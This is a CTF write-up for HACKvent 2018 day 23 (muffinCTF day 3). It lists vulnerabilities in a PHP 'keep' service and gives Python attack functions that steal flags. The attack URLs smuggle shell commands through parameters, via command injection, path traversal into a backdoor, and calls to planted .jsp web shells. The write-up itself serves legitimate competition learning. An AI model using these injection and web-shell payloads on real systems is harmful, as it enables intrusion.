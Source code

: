 # Day 23: MuffinCTF

*Day 3*

```
DAY 3 Services
--------------------------------------------
        .
       /:\
       |:|
       |:|
       |:|
       |:|      __
     ,_|:|_,   /  )                     *_   _   _   _   _   _   _   *
       (Oo    / _I_                     | `_' `-' `_' `-' `_' `-' `_'|
        +\ \  || __|            ^       |                            |       ^
           \ \||___|            |       |                            |       |
             \ /.:.\-\          |  (*)  |_   _   _   _   _   _   _   |  \^/  |
              |.:. /-----\      | _<">_ | `_' `-' `_' `-' `_' `-' `_'| _(#)_ |
              |___|  oOo  |    o+o \a/ \0                            0/ \a/ (=)
              /   ||     0'\a-a/\/                            \/\a-a/`0
             |_____\  :  /        /_^_\ |                            | /_^_\
              | |  \ \:/          || || |                            | || ||
              | |   | |           d|_|b_T____________________________T_d|_|b
              \ /   | \___              /                           /
              / |   \_____\         /                              /
              `-'               /                                 /
     ________________________/                                   /___________

    Name: barracks
    Description:
        The knights and warriors of the king are here practicing the art of war.
        These guys are no joke, be respectful when you talk with them.
        Other nations sent their assassins to poision our warriors, make sure that we thighten our security.
        Also maybe talk with these guys and to show the enemies our powerful warriors.
    Creator: xorkiwi

                              .- ._          *
                     .       (   ) `) ._,--.
              _.-.          (      .' |    }      ._    +
            .'     )         `(_'-'   |--'"        ))        |
           (   _.   )                 |           '"       - * -
          .-.-'  )  _)  .        ["I"I"I"I"}   .             .
         (  `   .)`'              I_I_I_I_I
          `-. (   )          [UUUUI_I_I_I_I
             `-..'            |[__I_I_[#]_I .        .
                       +      |__[I_I_I=I_I
             .       ._    +  |]_ I_[#]-I_I    ._          ;
                     |~       |_[ I_I=I_I_[,   |~
                   uuuuu      |__ I_I_I%I_I  uuuuu
                   | #_|      |[ _$_I_I%%_I  | _ |
                   |-  [      | [ %%I_g%%_I  |  -|         __a:f
              ---..|_  |.--,,'|]_ %_Ia%%I_I -|_- |.------""
                   |_-#|  ((  |_[ $%I%%_!^!  | _ |      +
                   |   |   )) |[_ |%.%I_|"|  |_  |    n Am   n
                 .-[_A_]_ '/  |_ / _Y_)_|`| -[N__]_        n
             ._.'        `- _.--'`'  ' "|\=\ ''    `-.
                          .'             |\=\`-._     `
                       .-'                  `:.  `---....__
                                               `
    Name: keep
    Description:
        This is the place where the king goes in difficult times.
        In your last audience it was clear, that the situation is critical.
        Defend the keep, the enemy troops are pushing more and more.
        And make sure that they pay for this.
    Creator: xorkiwi
```

Login to: [muffinCTF](http://whale.hacking-lab.com:9280/)

### Description

To get the HACKvent day 23 (muffinCTF day 3), you had to achieve the following requirements, in at least 2 of the last 5 ticks (1 tick = 3 minutes).

Have [barracks](files/barracks.zip) or/and [keep](files/keep.zip) service running with the following stats:
 - attack points > 20
 - maximal defense points
 - maximal availability points
 
Here is a copy of the [official instructions](INSTRUCTIONS.md).

### Solution

Again I focused solely on one of the services. This time it was the keep written in PHP. Here is what I found.

##### Keep

- Arbitrary command execution in `/home/keep/inc/userinfo.php`
- Path traversal vulnerability in `/home/keep/inc/inc.php`
- Arbitrary PHP page upload in `/home/keep/inc/ser.php`
- PHP object injection in `/home/keep/inc/dinner.php`
- Arbitrary code execution in `/home/keep/inc/login.php`

In addition to that there was still the backdoor outside the service stored in `/var/www/html/index.php` which could be exploited in combination with the path traversal vulnerability in the service itself.

After patching my keep and fixing a permissions problem I chose few of those easily exploitable vulnerabilities and wrote this attack script.

```python
def keep_exploit(attack_url):
    output = ''

    # grep -hra muffinCTF /home/keep/invitation
    output += get_flags(attack_url + 'inc/userinfo.php?a=grep+-hra+muffinCTF+/home/keep/invitation')
    output += get_flags(attack_url + 'inc/inc.php?page=../../../var/www/html/index.php&c=grep+-hra+muffinCTF+/home/keep/invitation')

    return output

muffin_ctf.attack_all('keep', keep_exploit)
```

To increase my chances I also used my proven port service exploits to steal flags from keep.

```python
def port_exploit(attack_url):
    output = ''

    # grep -hra muffinCTF /home/keep/invitation
    output += get_flags(attack_url + 'searchPortname.jsp?port=google.com%3Bgrep+-hra+muffinCTF+/home/keep/invitation')
    output += get_flags(attack_url + 'css/themes/default/assets/fonts/icons.svg.jsp?cmd=grep+-hra+muffinCTF+/home/keep/invitation')
    output += get_flags(attack_url + 'js/Framework/jquery.min/javascript/plugins/lib/jquery.min.js.jsp?cmd=grep+-hra+muffinCTF+/home/keep/invitation')

    return output
    
muffin_ctf.attack_all('port', port_exploit)
```

Complete source code of my exploit can be found [here](../../src/main/python/hackvent2018/Day23.py).

This is the flag I got.

```
HV18{muffinCTF{d4y_3_t3h_1337_b001s_g3t_4ll_d3m_gr0up13z_4nd_b0x3n}}
```
